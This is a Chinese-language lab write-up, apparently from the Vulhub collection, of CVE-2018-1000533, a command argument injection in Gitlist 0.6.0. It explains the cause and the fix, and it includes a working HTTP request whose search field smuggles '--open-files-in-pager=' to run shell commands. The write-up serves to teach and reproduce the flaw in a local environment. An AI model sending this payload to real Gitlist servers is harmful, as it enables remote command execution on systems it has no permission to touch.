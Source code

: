# Gitlist 0.6.0 远程命令执行漏洞 CVE-2018-1000533

## 漏洞描述

gitlist是一款使用PHP开发的图形化git仓库查看工具。在其0.6.0版本及以前，存在一处命令参数注入问题，可以导致远程命令执行漏洞。

## 环境搭建

Vulhub执行如下命令启动漏洞环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`将看到一个名为`example`的仓库。

## 漏洞复现

参考链接：[Vulhub](https://github.com/vulhub/vulhub/tree/master/gitlist/CVE-2018-1000533)

在用户对仓库中代码进行搜索的时候，gitlist将调用`git grep`命令：

```
public function searchTree($query, $branch)
{
    if (empty($query)) {
        return null;
    }

    $query = escapeshellarg($query);

    try {
        $results = $this->getClient()->run($this, "grep -i --line-number {$query} $branch");
    } catch (\RuntimeException $e) {
        return false;
    }
```

其中，`$query`是搜索的关键字，`$branch`是搜索的分支。

如果用户输入的`$query`的值是`--open-files-in-pager=id;`，将可以执行`id`命令：

![image-20220223214440698](./images/202202232144734.png)

导致这个漏洞的原因，有几点：

1. 开发者对于`escapeshellarg`函数的误解，造成参数注入
2. `git grep`的参数`--open-files-in-pager`的值，将被直接执行

理论上，在经过`$query = escapeshellarg($query);`处理后，`$query`将变成一个由单引号包裹的字符串。但不出漏洞的前提是，这个字符串应该出现在“参数值”的位置，而不是出现在参数选项（option）中。

我们可以试一下如下命令：

```
git grep -i --line-number -e '--open-files-in-pager=id;' master
```

![image-20220223214451255](./images/202202232144303.png)

如上图，我将`$query`放在了`-e`参数的值的位置，此时它就仅仅是一个字符串而已，并不会被当成参数`--open-files-in-pager`。

这应该作为本漏洞的最佳修复方法，也是git官方对pattern可能是用户输入的情况的一种解决方案（以下说明来自man-page）：

> -e The next parameter is the pattern. This option has to be used for patterns starting with - and should be used in scripts passing user input to grep. Multiple patterns are combined by or.

当然，gitlist的开发者用了另一种修复方案：

```
public function searchTree($query, $branch)
{
    if (empty($query)) {
        return null;
    }
    $query = preg_replace('/(--?[A-Za-z0-9\-]+)/', '', $query);
    $query = escapeshellarg($query);
    try {
        $results = $this->getClient()->run($this, "grep -i --line-number -- {$query} $branch");
    } catch (\RuntimeException $e) {
        return false;
    }
```

首先用`preg_replace`将`-`开头的非法字符移除，然后将`$query`放在`--`的后面。在命令行解析器中，`--`的意思是，此后的部分不会再包含参数选项（option）：

> A -- signals the end of options and disables further option processing. Any arguments after the -- are treated as filenames and arguments. An argument of - is equivalent to --.
>
> If arguments remain after option processing, and neither the -c nor the -s option has been supplied, the first argument is assumed to be the name of a file containing shell commands. If bash is invoked in this fashion, $0 is set to the name of the file, and the positional parameters are set to the remaining arguments. Bash reads and executes commands from this file, then exits. Bash's exit status is the exit status of the last command executed in the script. If no commands are executed, the exit status is 0. An attempt is first made to open the file in the current directory, and, if no file is found, then the shell searches the directories in PATH for the script.

举个简单的例子，如果我们需要查看一个文件名是`--name`的文件，我们就不能用`cat --name`来读取，也不能用`cat '--name'`，而必须要用`cat -- --name`。从这个例子也能看出，单引号并不是区分一个字符串是“参数值”或“选项”的标准。

![image-20220223214500106](./images/202202232145144.png)

所以官方这个修复方案也是可以接受的，只不过第一步的`preg_replace`有点影响正常搜索功能。

## 漏洞复现

发送如下数据包：

```
POST /example/tree/a/search HTTP/1.1
Host: your-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Content-Length: 56

query=--open-files-in-pager=touch /tmp/success;
```

其中，我们访问的是`/example/tree/a/search`，example是项目名称，需要是目标gitlist上一个已存在的项目；a在正常情况下应该是分支的名称，也就是`"grep -i --line-number {$query} $branch"`中的`$branch`，但因为我们的`$query`被当成了一个参数，所以`$branch`就应该被当做搜索的关键字。

![image-20220223213910149](./images/202202232139250.png)

如果没有搜索结果的话，我们的命令是不会被执行的，所以我用了“a”这个关键字，只是为了保证能搜出结果，你也可以换成其他的试试。

数据包发送后，用`docker-compose exec web bash`进入容器中，可见`/tmp/success`已成功创建：

![image-20220223213813298](./images/202202232138346.png)

